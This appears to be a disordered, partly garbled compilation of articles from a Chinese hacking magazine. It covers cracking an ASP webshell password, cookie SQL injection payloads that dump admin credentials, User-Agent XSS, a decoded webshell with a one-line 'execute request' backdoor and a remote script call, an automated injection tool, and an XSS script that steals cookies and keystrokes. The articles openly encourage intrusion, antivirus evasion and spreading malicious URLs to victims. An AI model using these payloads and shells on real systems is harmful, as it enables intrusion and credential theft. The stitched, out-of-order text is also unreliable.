愚起到了一定的促进作用，但是企业网站的安全是否能得到保障呢？ 企业客户大多都是普通的网络使用者，对于安全的知识是非常缺乏的，更何况涉及到程序语言的安全。或许有人会这样认为，小企业网站一个，谁爱黑就黑去，也没什么损失，但是要知道，一个网站就是一个企业的面子，难道你的脸总喜欢被人在上面乱画东西吗？

我曾经做过这样的测试，将一公司的站点入侵后，对其代码进行大概浏览，知道其程序的BUG后，去网站的设计公司查看其它案例，发现80%都有同样的问题。于是，不到一个小时的时间就拿到了20多个网站的SHELL，其中不乏国内的知名企业。

本文的意义并不在于讨论入侵本身的技术，只在于提醒那些企业网站的建设者们，增强安全意识，不要因为把网站的制作外包给一些设计公司，就可以高枕无忧了。

## 三、对企业的提醒与建议

目前的设计公司大多都有自己进行开发的网站系统，将企业网站常用的一些模块写好后，再根据客户的需求对网站进行整合，这样的做法节约了开发时间，降低了成本，为整个网络的发展起到了促进作用。

这天小菜在吐司论坛晃随便逛的时候，发现有朋友发了这样一个帖子《看看这个aspshell的密码是怎么加密的》的文章，这勾起了我的兴趣，一般常见的aspshell的密码都是在代码开头处明文定义的，这个shell看来不是这样，马上下载回来，研究研究。

# 一、初步测试

放在asp环境下运行看看先，访问后登陆界面（如图1）。

图1

标题是“企业网站后台管理系统”，还有账号密码的输入框，乍一看还真挺像某个企业网站的后台管理界面呢，呵呵，有点意思。OK，我们直接EditPlus打开该asp文件，可以发现大部分都是明文代码，并没有经过VBScript.Encode的加密，省了我们不少事。开头处代码如下：

```
UserPass="137298272144298272144298272137298272"

mName="111"

mNametitle="111"

Copyright="by:111"
```

看起来像是定义密码和版权等信息的，首先把一串数字赋值给UserPass变量，然后把字符串111分别赋值给mName和mNametitle变量，最后是一个版权相关变量的赋值。常见的aspshell中，UserPass后面的字符串应该就是该shell的密码，这里我们试一下用账号111和密码137298272144298272144298272137298272来登录该shell，提示非法登录（如图2）。

图2

很显然，UserPass变量中的数字串应该是被加密后的内容，而不是明文密码。好，我们在代码中搜索UserPass，来到第664行：

```
vb
Pos=2:Pn=89
Function Serinf(getstr,Pos)
  Dim i,newStr
  For i=1 To Len(getstr)
    newStr = newStr & Asc(Mid(getstr,i,1))+Pos & (298361-Pos)
  Next
  Serinf = newStr
End Function

if session("web2admin")<>UserPass then
  if request.form("pass")<>"" then
    if Serinf(request.form("pass"),pn)=UserPass then
      session("web2admin")=UserPass
      response.redirect:url
    else
      rrs="非法登录"
    end if
  else
    RRS="<title>企业网站后台管理系统</title>"
    RRS="<FORM ACTION='' METHOD='post'>..."
    ...
  end if
  response.end
end if
```

## 二、代码分析

很显然，这里就是此 shell 登录验证的相关代码了。首先是两个变量 Pos 和 Pn 的赋值，然后定义了一个函数 Serinf。参数名中也有 Pos，但与前面的 Pos 变量并无直接关联（作用域不同）。

先找到调用该函数的位置，搜索到代码：

```
vb
if Serinf(request.form("pass"),pn)=UserPass then
    session("web2admin")=UserPass
```

这里先把登录界面密码输入框里的内容通过 Serinf 函数处理，再把结果与 shell 中预定义的 UserPass 比较。相同则验证通过并登录成功。由此可推测登录时只需输入正确密码，不需要依赖管理账号变量。

接着分析 Serinf 的实现：`Function Serinf(getstr,Pos)`，定义变量 `i`、`newStr`，对 `getstr` 每个字符做 `Asc` 转换，与 `Pos` 相加后再拼接 `(298361-Pos)`，最终返回结果。

## 三、举例说明

为了便于理解，对字符串 `abc` 做加密示例：`a` 的 ANSI 值 97，与 `Pos=89` 相加得 186，再拼接 `298361-89=298272`，得到 `186298272`；同理 `b`、`c` 依次处理并拼接，最终形成完整加密串。随后作者提到可写一个 vbs 脚本提高处理效率。

# 黑客研究院

```
dim str,pn
pn=89
str=inputbox("请输入要加密的密码")
if str<>"" then
  call inputbox("请复制加密后的字符串",,Serinf(str,pn))
end if
Function Serinf(getstr,Pos)
  Dim i,newStr
  For i=1 To Len(getstr)
    newStr = newStr & Asc(Mid(getstr,i,1))+Pos & "298272"
  Next
  Serinf = newStr
End Function
```

将上面的代码保存成 `jiami.vbs`，运行后效果（如图3）。

我们输入要加密的内容比如 **abc**，然后点击确定，结果（如图4）。

大家看，是不是和我举的例子中得到的结果一样？现在我们把加密后的字符串替换掉 shell 开头代码中的 `UserPass="..."` 中双引号之间的数字串，替换后为：

`UserPass="186298272187298272188298272"`，保存后这个 shell 的登录密码就变成 **abc** 啦。我们试试看，在 asp 环境下访问替换后的 shell，在管理密码处输入 abc，点击登陆系统，看，已经成功登陆了（如图5）。

# 四、如何解密

到这里，我们就结束了吗？不，我们还没有完成解密，这个 shell 的密码只是被我们替换掉了，但是我们怎样才能知道别人的密码是多少呢？

下面，跟我来分析下怎么逆向这个加密函数。首先，我们发现加密后的密文中 `298272` 是固定的，这是加密每一个字符后产生的干扰数字，并没有实际的意义。我们将其替换，然后分别对每一个字符加密后产生的数字进行如下逆运算：1、减去 Pos 得到 ANSI 值；2、将 ANSI 值转换成对应的字符。OK，原理就是这么简单，我们写一个 vbs 脚本来实现解密，代码如下：

```
dim str
str=inputbox("请输入要解密的字符串")
if str<>"" then
  call inputbox("请复制已经解密的明文密码",,jiemi(str))
end if
function jiemi(enstr)
  dim i,temp,arr,newstr
  temp=replace(enstr,"298272",",")
  arr=split(temp,",")
  for i=0 to ubound(arr)-1
    newstr=newstr&chr(arr(i)-89)
  next
  jiemi=newstr
end function
```

保存成 `jiemi.vbs`，运行，效果（如图6）。

我们把未替换密码的原始 shell 中 `UserPass` 变量后的字符串复制到输入框中，点击确定，看，密码明文已经出来了（如图7）。OK，到这里我们就知道此 shell 的原始密码就是 `0770`。我们测试下，成功登陆。

是秘密了，我们可以修改随意修改登陆密码，也可以查看别人的密码了（密码是汉字也可以哦）。

文章结束，谢谢大家的观看。

（文章中所涉及到的工具收录在《黑客X档案》论坛中）

## 浅导一种解析 Cookie 注入原理

菲&兴东

写这篇文章要谢谢媛宝贝对我一直以来的支持，现在很多网站程序都加上了防注入系统，当我们输入注入语句的时候将无法注入，但防注入系统有时候会忽视掉 Cookie，这样一来也就形成了 Cookie 注入。

## 一、SQL注入原理

我以 aspx 为例，现在我们来研究下 Cookie 注入是怎么产生的。在获取 URL 参数的时候，如果在代码中写成 Request["id"]，这样的问题就出现了。Request.QueryString["id"] 用于接收 GET 提交的数据，Request.Form["id"] 用于接收 POST 提交的数据。如果不指定 QueryString 还是 Form，WEB 服务会先取 GET 中的数据，没有再取 POST，最后再取 Cookies 中的数据，这样 Cookie 注入就产生了。

```
string xx = Server.UrlDecode(id);
string sql = "select * from Cookie where id='" + xx;
SqlConnection conn = new SqlConnection(connuser);
conn.Open();
SqlCommand comm = new SqlCommand(sql, conn);
SqlDataReader datare = comm.ExecuteReader();
while (datare.Read()) {
    Response.Write(datare["name"]);
}
conn.Close();

--- Test 页面代码 ---
<body>
<form id="form1" runat="server">
<div>
<a href="test.aspx?id=2">Cookie测试</a>
</div>
</form>
</body>
```

## 二、测试环境

```
ASP.NET + SQL Server 2005

ASP.NET 代码：
Aspx 文件有两个（如图1）。

--- Default.aspx 页面代码 ---
protected void Page_Load(object sender, EventArgs e)
{
    string id = Request["id"].ToString();
    string connuser = @"Data Source=...;Initial Catalog=CookieDemo;Integrated Security=True";
}
```

**数据库：**

数据库建库建表代码我就不写出来了，数据库我会打包给大家就不贴代码了（《黑客X档案》节省点版面，关于数据库的结构如图2）。Cookie 表保存页面要展示的数据，admin 表保存账号密码信息。

## 三、实践演习

我们先访问 Default.aspx（如图3）。点击“Cookie测…”。

# 黑客研究院

试“跳转到test.aspx?id=2页面，参数为id值为“2”，test.aspx页面中显示出了数据库中id为“2”相应的值（如图4）。

把 `?id=2` 删除后改成 `http://localhost:6635/CookieDemo/test.aspx` 然后浏览，出错了（如图5）。

`javascript:alert(document.cookie="id="+escape("3"));` 的意思是把3保存到Cookies的id中。这样在过滤了Form、QueryString提交而没过滤Cookie时，就可以进行Cookie注入。

```
javascript:alert(document.cookie="id="+escape("3 and 1=1"))
```

提交后刷新页面出现id=3的数据；再输入 `javascript:alert(document.cookie="id="+escape("3 and 1=2"))` 后刷新，页面变为空白。

```
javascript:alert(document.cookie="id="+escape("3 order by 2"))
```

返回正常；再输入 `javascript:alert(document.cookie="id="+escape("3 order by 3"))` 返回错误（如图8）。

返回错误页什么数据也没有，这是因为没有在浏览器传递id值，Request接收id时为空，SQL语句报错并返回错误页。随后在地址栏输入 `javascript:alert(document.cookie="id="+escape("3"));` 会弹出提示框（如图6）。

现在访问 `http://localhost:6635/CookieDemo/test.aspx` 这个不带参数的链接，就会出现id=3对应的值（如图7）。

为了方便不懂javascript的朋友我简单介绍下。确定字段数为2个……

cookie="id="+escape("3 union select 1,'2'")。然后刷新就爆破出了数字2相应的位置（如图9）。我自己搭建的环境测试，就不猜表了admin表是管理员表，表中有id,username,pass这3个字段，在真实的渗透中这些是需要自己去猜的。

```
javascript:alert(document.cookie="id="+escape("3 union select 1,username from admin"))
```

后刷新就爆破出了用户名（如图10）。然后输入javascript:alert(document.cookie="id="+escape("3 union select 1,pass from admin"))刷新下页面密码就出来了（如图11）。

图10

图11

图9

账号密码都有了剩下的就是想办法后台拿Webshell了，由于我没有写后台测试页面，文章就到这了。这就是Cookie注入，希望对大家有帮助，SEE YOU。

> （文章中所涉及的"相关的数据库"已收录在本期光盘中）

## HTTP协议浅谈

乱雪

就在上月互联网发生一件重大事件，腾讯和360这两大用户量极广的公司之间发生了一场惊心动魄的激烈冲突，甚至腾讯一方做出决定——360和QQ不兼容，如果用户机器上同时安装了360和QQ，将导致QQ强行关闭。不仅如此，倘若使用360浏览器访问QQ空间，将会被阻止。不过，针对360浏览器访问QQ空间的问题网上很快出现了突破方法，也正是和本文所要讲的User-Agent有关。

## 一、什么是User-Agent

User-Agent是HTTP协议请求格式的一个头域。下面来简单了解下HTTP协议。以下是我对http://qzone.qq.com发出的一个HTTP请求，内容如下：

```
GET HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-ms-application,application/x-ms-xbap,application/vnd.ms-xpsdocument,application/xaml+xml, */*
Accept-Language: zh-cn
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
Host: qzone.qq.com
Connection: Keep-Alive
```

顶部由GET和HTTP/1.1组成，GET代表请求动作的方法，表示向服务器请求一个资源，HTTP/1.1代表使用的HTTP协议版本，现在绝大多数的浏览器都使用的是1.1版本。

第一个Accept消息头代表接受介质的类型，这里可以忽略不管；Accept-Language消息头代表接受的语言种类，zh-cn表示中文；Accept-Encoding消息头表示接受编码的方式，这里使用了gzip,deflate压缩编码；User-Agent消息头则是接下来将要讲到的；Host消息头代表请求的主机，这里是qzone.qq.com。Connection消息头的值为Keep-Alive表示了浏览器与服务器保持连接。

向目标主机发送请求后会收到来自服务器的响应，由于这里不是本文重点，将不作介绍返回给浏览器的HTTP消息，如需要，请查阅相关文献。我们的重点是User-Agent消息头，注意后面跟的值似乎包含操作系统和浏览器的信息。是的，User-Agent包含了客户端的浏览器和操作系统信息。

下面，来看一个典型的WEB访问过程，如图1。当客户端的浏览器向服务器发送一个HTTP请求后，如果……发送成功，服务器则响应这个请求。而刚才的例子中向QQ空间服务器发送了一条HTTP请求，请求的内容中包含了一些关键信息，其中User-Agent中包含了来自客户端的浏览器信息，由于360浏览器有属于自己的User-Agent（大多数浏览器都有属于自己的），QQ空间服务器收到来自客户端的HTTP请求中如果包含360浏览器的User-Agent便可禁止用户其访问，这就是其中的原理，而网上流传的突破360浏览器访问QQ空间限制的最初方案正是修改User-Agent。

客户端，是可以随意改变请求的内容的。我们可以通过代理服务器的方式来改变请求内容。代理服务器是介于客户端和目的服务器之间的一台服务器，当客户端浏览器设置了代理服务器地址和端口后，浏览器首先将消息发送到代理服务器，然后由代理服务器向目的服务器发送HTTP请求的，代理服务器是通过客户端发送的HTTP消息中HOST消息头来确定将要发送到的目的服务器地址的。当目的服务器响应后并返回一个请求，请求也应先返回到代理服务器，然后由代理服务器将接收到请求转发给客户端浏览器。所以代理服务器在接受到来自客户端的请求内容后是可以随意修改消息内容的（事实上它的确对消息内容做了细微的修改）。其过程如图2。


## 二、不同浏览器的User-Agent有什么不同

我在本地的PHP环境中用一段PHP代码输出User-Agent（如何搭建PHP环境在这里省略，详细请参考相关文章），文件test.php，代码如下：

```
php
<?
echo $_SERVER['HTTP_USER_AGENT'];
?>
```

然后用IE浏览器访问http://localhost/test.php，得到的输出结果如下：

> Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)

再用360浏览器访问，得到的结果如下：

> Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022; 360SE)

可以看出，360输出的结果中，最后多出一项“360SE”，当QQ空间服务器程序接受到的请求中检测到360SE字样则禁止用户的访问了。

不过这里要注意，之后360浏览器似乎在浏览器选项——“其他”里默认勾选了“统一IE和360安全浏览器的User Agent标示”，如果勾选了它，得到的结果将和IE的一样，所以需要反选此选项才会得到以上的结果。

## 三、通过代理改变User-Agent

前面说了HTTP的请求内容是来自客户端，那么作为客户端，了解了代理服务器的运作方式后，我们完全可以自己搭建一台本地代理服务器来修改请求内容。这里所讲的本地代理服务器是指在本地运行一个代理服务器程序，然后将浏览器的代理IP设置成本机地址和指定的端口号，在访问网页发出HTTP请求时，代理服务器软件首先捕获请求，然后再将请求发送给目标服务器。在捕获到浏览器发送来的HTTP消息后，完全可以修改消息头内容后再提交给目标服务器。

这里将使用WEB安全工具中大名鼎鼎的Burp Suite来实现本地代理服务器，在其官方网站（http://portswigger.net/burp/download.html）下载免费版本（单击Download now）。因为Burp Suite是基于JAVA平台的，所以需要安装JRE（随光盘附带）。安装了JRE后，运行Brup Suite目录下的suite.bat，即可启动Brup Suite，程序界面如图3。


运行后Brup Suite默认使用的代理端口号是8080，所以就不设置而直接使用。然后用360浏览器设置代理，选择360浏览器工具栏中的“代理服务器”——“代理服务器设置”，填入127.0.0.1:8080并确定。设置以后，再在“代理服务器”选项中勾选添加好的“127.0.0.1:8080”，此时本地代理服务器已经设置完毕。我们再来访问刚才的建立的test.php，浏览器中输入http://localhost/test.php，此时浏览器一直处于等待状态，无任何显示。而Brup Suite却有反应了，选择“proxy”选项卡，就可以看到浏览器发送的请求内容了，如图4。


图4

这时可以修改消息的任何内容，我们将User Agent可以修改成任何内容，比如将“360SE”字样删除（当时就可以通过此方法绕过QQ空间的访问限制）。但是如果我们提交一串跨站字符呢？我们将User Agent冒号后的内容修改成

```
html
<script>alert("test")</script>
```

后按“forward”按钮，浏览器将弹出内容为“test”的显示，如图5。


图5

现在很多网站（比如论坛程序）会将客户端浏览器信息写入数据库，倘若某站点没有对获得的User_Agent（PHP获得User_Agent的变量是：`$_SERVER['HTTP_USER_AGENT']`。ASP获得User_Agent对象的方法是：`Request.ServerVariables("HTTP_USER_AGENT")`）进行过滤而直接写入数据库并且显示在页面中，那么将存在一处攻击点。曾经到网论坛出现过一次User-Agent注入。

## 四、小结

其实靠User-Agent来限制浏览器访问并达不到绝对效果的，因为HTTP请求的内容来自客户端，客户端是可以修改任何内容的。其次，在WEB安全编程中，应该严格过滤来自客户端数据，比如GET、POST、Cookie、User-Agent，任何来自客户端的输入不能保证是安全的，可以采用白名单的方法来验证请求的数据，即“只允许提交某些内容，其余的均为不允许”，而不是使用黑名单方式——将带有威胁的内容一一排除。比如上传漏洞中，用白名单方式过滤内容，只允许上传jpg和gif，其余格式均不允许的；如果用黑名单方式，将asp、php、aspx等后缀列入危险黑名单中时，可能会忽略掉其中一种格式，导致漏洞产生。

同时，因为代理服务器可以接受来自客户端和服务器之间的消息，并且可以随意修改其内容，也证明了代理服务器的不安全性，那么在选择代理服务器时应该警惕代理服务器是否安全的。

（本文所涉及的Burp Suite和JRE光盘已收录）

# 一觉加密的ASPshell深入剖析

EchoEye / 侯其涛 [B.B.E]

各位叉子好久不见，这次给大家带来的是打造自己的ASP-shell。事情的起因是好友HRay某日发了个shell给我，说功能不错。我就在本机打开看了一下，果然功能挺多，如图1。

除了一般目录的功能以外还有Ms sql提权、Php、Aspx、Jsp侦察、SETSESSION（这个可以操作你在目标机器上的session信息）、单页代理（将网页做成代理）等，还有其他功能就不介绍了。不过用的时候发现了点问题，就是在打开登录界面时如图2，居然有51的博客，而且图片看不了，这实在太别扭了，于是我就想修改下，这就开始了这次ASPshell修改之旅。


图1

用Notepad++打开Asp木马，发现被加密了，在最上面显示：`<%@ LANGUAGE = VBScript.Encode %>`，是用系统自带的加密方式，这步解密比较容易。我们使用工具“ASP加密解密”，如图3，这个主要就是针对Encode这种加密方式的，将Asp木马放到一个文件夹中，然后点击“执行批量转换”就OK了。

我再次用Notepad++打开木马，结果如图4，可以看到`<%@ LANGUAGE = VBScript.Encode %>`部分已经没有了，但仍旧有加密的内容，所以我们还必须继续解密。

# 黑客研究院


必须提一下，其实对于Asp类的加密，最终其实解密函数也是在文件之中，最终给系统识别的还是解密后的内容，而这部分内容基本上都是用execute来执行。理一下思路就是，Asp的加密是把代码加密成乱码，然后程序自己解密成系统可以识别的字符串，最后通过execute来执行这串字符。那么我们如何解密比较轻巧又快捷呢，这里我给大家提供一个方法。我们仔细阅读代码会看到execute(Unlin(chen))，其中chen是加密的字符串，Unlin是用来解密的。这样我们来找下这个解密函数，直接搜索Unlin，可以搜到代码：

```
function Unlin(bb)
but=94
for i = 1 to len(bb)
  if mid(bb,i,1)<>"喂" then
    If Asc(Mid(bb, i, 1)) < 32 Or Asc(Mid(bb, i, 1)) > 126 Then
      a = a & Chr(Asc(Mid(bb, i, 1)))
    else
      pk=asc(mid(bb,i,1))-but
      if pk>126 then
        pk=pk-95
      elseif pk<32 then
        pk=pk+95
      end if
      a=a&chr(pk)
    end if
  else
    a=a&vbcrlf
  end if
next
Unlin=a
end function
```

其中我们的ASPshell中代码被加密的其实只用两段，我使用的方法是，首先将chen的代码放到一个新的ASP文件中，代码是：

```
<%
chen="加密内容"
response.write(Unlin(chen))
function Unlin(bb)
  but=94
  …………省略的unlin代码参照上面…………
  Unlin=a
end function
%>
```

接着我们访问这个Asp文件，结果如图5。

这里的原理就是，让系统自己解密，然后通过response.write的方法来输出内容到页面上。可能有些又子要说怎么会是乱码，其实不用担心，是因为有些代码被浏览器当做HTML标签内容被执行了，当我们查看源代码时就可以看到代码了。我们只要将代码复制回chen那，将那段覆盖掉就可以了。本来我以为大功告成了，但仔细看了下刚才解密的代码之中有如下代码：

```
samur1=chr(60)&chr(115)&<...中间类似代码省略...>chr(13)&chr(10)chr(60)&chr(115)&chr(13)&chr(10)
```


图5

汗，其中每个数字是一个ASC码，我们可以将每个字符都还原，然后就会发现其中的内容。不过这样比较麻烦。我是采用和上面类似的方法，让系统自己识别和显示出来。代码改为：

```
vb
<%
samurl=chr(60)&chr(115)&...（中间类似代码省略）...>chr(13)&chr(10)chr(60)&chr(115)&chr(13)&chr(10)
response.write(samurl)
%>
```

查看解密结果代码为 `<script src='http://liuwengang.3322.org/images/'></script>`，怎么会调用外部的JS，而且还是3322的。我们跟踪下这个代码，搜寻samurl，发现出现在“<br><font color=red>"&CMD&""&samurl&"</font><br><br>”这个地方是用来提权的，出现这里，这个JS代码肯定没用，也就是说是用来做后门之类的……我们直接删除掉，留空即可，可以改成：samurl=""。

Response.write"<style>body {background:url('http://...jpg') repeat fixed!important}</style>"

```
vb
```

这段就是通过css方式把背景改了，我们直接删除吧！当删除这段代码后再次访问，已经没有那个烦人的图片了。

到此就结束了吗？还没有呢，记得开始那个samurl吗？我们猜测是后门之类的，那我们再仔细看一下。这里我给大家提供一个检测后门的方法，使用MAXTHON，然后我们点击“工具”->“网页嗅探器”，在嗅探文件类型处选择“所有文件”，如图6，然后点击确定。


图6

接着我们访问ASPshell的地址，输入密码后登入。我们再次点击“工具”->“网页嗅探器”，我们看到如图7。这时候就能看到我们提交密码后所访问到的界面，如果这里有访问到别的网页，甚至把我们的密码和网址提交出去了，那么就可以确定有后门了。但这里我们可以看到都是访问到本地的，所以说明这里是没有后门的。


图7

但整个ASPshell就没有后门吗？我们再看下代码，仔细观察会看到代码为：

```
vb
if request(chr(108))<>"" then execute request(chr(108))
```

哈哈，总算被我抓到了！这里就是留的一句话后门了，不晓得是作者留的还是别人。可能前面的 `<script src='http://liuwengang.3322.org/images/'></script>` 会记录访问的来源，然后通过这一句话后门就可以成功登陆别人的shell了，而且他人登录时不会被发现。

接下来就是修改一些自己想要的内容了，我们可以修改成自己的专版之类的，这方面我就不多说了。还记得前面我说的Aspx探测功能吗，我查看代码如：

```
vb
function aspx()
  set fso=Server.CreateObject("Scripting.FileSystemObject")
  fso.CreateTextFile(server.mappath("test.aspx"))
  Write"oo口 口oo"
  Response.write "<iframe src=test.aspx width=950 height=300></iframe>"
  Response.write "<br><br><p><br><p><b><br><p><br><center>..."
end function
```

这里是先生成该文件，然后访问。由于感觉代码不够好，我给改成：

```
asp
function aspx()
set fso=Server.CreateObject("Scripting.FileSystemObject")
fso.CreateTextFile(server.mappath("test.aspx"))
Write("<"+"%Response.Write(\"恭喜，服务器支持aspx，By EchoEye\")%"+">")
Response.write "<iframe src=test.aspx width=950 height=300></iframe>"
...
```

…否则就是不支持拉！测试完后记得删哦！

加入了 `<"+"%Response.Write("恭喜，服务器支持aspx，By EchoEye");%"+">` 提示，这样会显示的更加清楚。

当然大家也可以根据自己的需要把Shell功能加强，而且代码已经解密大家可以根据自己的需要进行加密来躲避杀软。好了这次就介绍到这里，各位脚本小子，加油啦！

（本文所涉及的原版ASPshell已收录在本期光盘中）

# 如何叫你 工具直接搞定Cookie注入

MYC001

最近在翻看《黑客X档案》2010上半年的合订本，拜读了txcbg大大的一篇文章《从零开始学Cookie注入》，受益良多。文中详细解析了Cookie注入漏洞存在的原因以及多种利用方法，非常适合我等小菜来学习进步。

想想看，大家平时在入侵中碰到Cookie注入漏洞的时候，多半采用的利用方法应该就是用“寂寞的刺猬”大大写的那款“注入中转生成器”来生成一个asp页面（如图1）。


图1

然后将生成的页面文件放在asp环境下，构造出合适的url就可以直接注入了。方法虽然不是很复杂，但是有的时候，专门为了一个注入漏洞来搭建一个asp环境也挺不方便的。

## 一、工具的简单介绍

这里，我就给大家介绍一款工具，可以直接搞定大部分Cookie注入漏洞，避免了因需要搭建asp环境而带来的麻烦。好吧，废话不多说，先上工具的高清无码大图一张（如图2）。

没错，就是这个“鬼客.cookie全自动SQL注入工具”，从标题就可以看出来，这个工具只适用于Access数据库的注入，这也就是我前面提到的可以搞定大部分Cookie注入漏洞而不是全部的原因了。


图2

## 二、实践演示

我们直接搭建一个存在Cookie注入漏洞的网站归来，在实践中来掌握这个工具的使用方法。这里我从网上找到了一个程序“宜昌电脑公司V2.8版”，记得在txcbg大大文章中也是使用的这套程序做演示。好了，网站搭建好，访问如下图3所示。

经由txcbg大大分析得知，存在Cookie注入漏洞的页面是网站根目录下的news_more.asp文件，Ok，我们在网站中找到这样一个链接：http://localhost/news_more.asp?id=1179，习惯性的在该地址后面添加一个单引号（如图4），弹出了防注入警告；继续提交-0和-1，分别返回了不同的页面（如下图5、6所示）。

## 图3

## 图4

## 图5

到这里，我们就可以大胆的猜测该页面存在Cookie注入漏洞了。

接下来就是黑客的这款工具大显神通的时候了，打开工具，在注入网址框填写http://localhost/news_more.asp，变量框填写id，变量后的值框中填写1179，这个具体是需要根据存在Cookie注入的地址来填写的，因为我是本地搭建，存在Cookie注入的地址是http://localhost/news_more.asp?id=1179，所以就要按照上面介绍的来填写，填写后结果（如图7）。

心急的朋友们别只填写好这个以后就直接点击检测按钮了，不，我们还需要填写下连接类型和特征字符。我先来解释下连接类型，所谓连接类型，就是指该注入点是数字型还是字符型注入点，关于怎么判断我就不多说了，无非是个单引号符号闭合的问题，单纯的看数字还是字母有时候不是那么准确。

再来说下特征字符，所谓特征字符，就是指当前正常页面存在而报错页面不存在的，可以起到区分作用的字符串。这里，我们用刚刚那个注入点做演示，先提交http://localhost/news_more.asp?id=1179xxx让其报错（如图8）。

## 图6

## 图7

对比图5正常页面，我们发现，新闻标题不见了，那么该则新闻标题“ 一分钱一分货 高价彩色复合机推荐 ”就是存在于正常页面而不存在于报错页面的特征字符了。OK，我们将其填写在特征字符栏中，经测试，连接类型是数字型，我们勾选数字单选框，填好后结果（如图9）。

## 图8

## 图9

至此，需要填写的就全部完成了，我们点击检测按钮，稍等一会，工具左下方提示存在注入（如图10）。

## 图10

## 图11

## 图12

## 图13

## 图14

到这里，就可以开始注入了，我们点击检测表段，工具就开始用字典暴力破解表段了，稍等一会后，会在左下方提示检测表段完成，我们可以发现工具检测出来一个ADMIN表段（如图11）。

这里ADMIN表可能就是存放管理员账号密码的表，我们单击选中它，然后检测字段，耐心等待一会至提示检测字段完成，Ok，我们发现在ADMIN表下已经检测出来了三个字段：ID、ADMIN、PWD（如图12）。

接下来，就是分别对ADMIN字段和PWD字段的内容进行检测了，最后得到内容（如下图13、14）。

有的时候得到的密码可能是经过加密的，那时候就需要相应的查询解密，这里是明文密码就不多说了。接下来就是去后台测试注入到的账号密码是否正确，找到后台，成功登陆（如图15）。

## 图15

## 图16

至此，我相信大家都会使用该工具来直接搞定Cookie注入点了。如果遇到另类的表名字段名需要添加的情况，我们可以点击工具左侧的程序设置按钮，然后自行添加。（如图16）

记得某位大牛曾经说过：工具的作用就是让人侵更为方便。相信这款可以直接搞定Cookie注入点的工具，可以让大家在以后的入侵过程中更简单更快捷的搞定目标。同时也希望大家有什么好的工具一起交流进步。

> （文章中所涉及到的工具已收录在光盘中）

## 一、XSS原理

## 图1

最近在研究XSS，把研究经过写出来供大家研究，形成XSS的原因是没有对客户端提交的JavaScript/HTML代码进行检查，这样会导致恶意用户向提交恶意的JS/HTML代码，当访问被XSS的页面时，由于浏览器本身有解释HTML和JS语言的能力，因此浏览器解析页面时会导致执行从数据库中取回的HTML/JS代码。

## 二、xssShell编写及利用

为了方便研究我自己编写了存在xss漏洞的页面，aspx编写的，接受数据的也是aspx编写的。测试页面的结构（如图1）。

### 1. 漏洞页面Demo.aspx代码：

```
csharp
protected void Button1_Click(object sender, EventArgs e)
{
    //设置Cookie
    HttpCookie cookie = new HttpCookie("userName");
    cookie.Value = "Tom";
    cookie.Expires = DateTime.Now.AddDays(1);
    Response.Cookies.Add(cookie);

    String path = TextBox1.Text;
    TextBox1.Text = "";
    Response.Write(path); //输出信息
}

```

一般测试XSS漏洞语句为“`<script>alert('跨站了 by 菲')</script>`”。如果存在XSS漏洞会弹出一个对话框，现在我们测试下漏洞页面，在文本框输入“`<script>alert('跨站了 by 菲')</script>`”点击“xss测试”弹出了对话框跨站成功（如图2）。

下面是我写的一个简单的Xssshell.js来盗取信息，Request.aspx接受盗取的信息，把盗取的信息写到xss.txt。下面是代码。

### 2. Requests.aspx文件后台代码部分：

作用是接受xssShell.js提交的cookie键盘输入信息，在实际应用的时候这个文件要上传到自己的服务器上。

```
csharp
protected void Page_Load(object sender, EventArgs e)
{
    string username = Request.QueryString["xss"]; //接受Demo.js发出的请求

    FileStream fs = new FileStream(Server.MapPath("xss.txt"), FileMode.Create);
    //把盗取的信息写到的xss.txt里面
    StreamWriter sw = new StreamWriter(fs);
    sw.WriteLine(username);
    sw.Flush();
    sw.Close();

    Response.Write(username);
}

```

### 3. xssShell.js代码：

由于比较长，所以文章中就不写了，感兴趣的同学可以在光盘里看下。这个xssShell.js的作用就是盗取Cookie和用户键盘输入信息还有网站目录，然后发送请求提交到Requests.aspx，然后Requests.aspx文件会生成xss.txt来记录盗取的信息。

## 三、实战

我们要做的就是在跨站的地方远程调用xssShell.js然后把盗取的信息写到xss.txt里面，现在我们在文本框输入“`<SCRIPT a='>' SRC='http://localhost:1515/xs/xssShell.js'></SCRIPT>`”这样就能加载我们的xssShell.js了，然后点击“提交”（如图3）。

然后会生成一个xss.txt的文本用来保存截取受攻击者的url和Cookie等信息，现在我们访问下xss.txt看看是不是成功了记录下了Cookie和网站信息（如图4）。

我们在刚才提交跨站语句的地方输入些字符看能不能记录下来我输入“xsssxsssxsssxsssxsss”，在访问下xss.txt如图5成功记录了下来。

在实际的利用中大家可能会网上发包含远程js的跨站url，由于提交时post提交所以要自己构造这个跨站URL，这个可以从火狐的“Live HTTP headers”插件抓包获取到，演示下怎么使用，选择工具（如图6）。

# 黑客研究院

然后选择 Live HTTP headers 然后会弹出这个抓包插件（如图7）。

… 点击提交，然后来到“Live HTTP headers”找到刚才抓的包然后点击 Realpy（如图8）。然后找到刚才提交的包（如图9）。

这样我们就可以构造跨站 url 了如下

```
http://localhost:1515/xs/Demo.aspx?__VIEWSTATE=...&__EVENTVALIDATION=...&TextBox1=%3CSCRIPT+a%3D%22%3E%22+SRC%3D%22http%3A%2F%2Flocalhost%3A1515%2Fxs%2FxssShell.js%22%3E%3C%2FSCRIPT%3E&Button1=...
```

我们打开存在跨站的页面输入

```
"<SCRIPT a='>' SRC='http://localhost:1515/xs/xssShell.js'></SCRIPT>"
```

然后把构造好的 url 发到网上，如果有人浏览就中招了。这就是常规的 xss 攻击流程，javascript 学的好的同学可以把这个 js 多加点功能。bye……

# 浅谈 Linux 权限设置

安全是任何一款大型软件都必须要考虑的问题，本文我们将讨论一下基于 Linux 平台的权限设置。所谓权限设置就是对文件的访问用户进行权限上的限定，涉及到权限设置的三个对象为——用户、文件、ACL（解决如何访问限定的问题），这三者的关系如图1所示。

